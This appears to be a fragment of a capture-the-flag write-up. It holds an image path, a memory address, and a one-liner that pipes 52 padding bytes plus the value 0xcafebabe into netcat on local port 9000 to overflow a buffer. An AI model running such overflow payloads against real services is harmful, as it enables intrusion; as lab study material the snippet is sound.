 0x5655623c
(python3 -c 'import sys; sys.stdout.buffer.write(b"A"*52 + b"\xbe\xba\xfe\xca")';cat) | nc 0 9000